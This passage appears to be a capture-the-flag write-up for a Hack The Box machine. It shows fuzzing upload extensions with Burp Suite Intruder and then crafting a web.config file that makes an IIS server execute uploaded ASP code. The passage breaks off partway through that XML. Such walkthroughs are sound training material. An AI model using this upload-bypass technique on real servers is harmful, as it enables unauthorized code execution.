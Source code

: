 ![Untitled](/HTB/bounty-3.png)

`/uploadedfiles` doesn’t list nothing but maybe we can access to the files putting the file name.

When I tried to upload a **.txt** the site outputs the following error.

![Untitled](/HTB/bounty-4.png)

Maybe there is a server side extension whitelist so in order to know what extension we can upload we need to **fuzz**.

## Exploiting

Let’s fuzz extensions with **burpsuite** in order to bypass the upload filter.

First we need to know what is the exact server response so I intercepted the **request** and send it to the **repeater**, once done we can start crafting the **attack**.

![Untitled](/HTB/bounty-5.png)

Once done I send it to **intruder**, I selected the **sniper attack** mode and assign the **attack** positions to the file extension of the filename.

![Untitled](/HTB/bounty-6.png)

Now we need to go to the payloads tab and set the payload type as **simple list** and load a extension wordlist (in this case I used a SecLists wordlist). It’s important to uncheck the **url-encode** these characters option on the **Payload Encoding** options.

![Untitled](/HTB/bounty-7.png)

Now let’s move to the **Options** tab and set the message error in the **Grep - Extract** settings. (We can see the **response** because we get it at the **Repeater** part).

![Untitled](/HTB/bounty-8.png)

Now we are able to perform the attack, only rests to start it.

![Untitled](/HTB/bounty-9.png)

In the results one extension called my attention. The **.config** extension is used on IIS for **web.config** which is **an XML-based configuration file used to define an application's custom settings**, that file is similar as **.htaccess** on linux machines. If we are able to upload a modified **web.config** with a crafted payload we can then execute whatever we want.

I found a [blog](https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/) where I found a crafted **web.config** with **ASP** code execution.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
```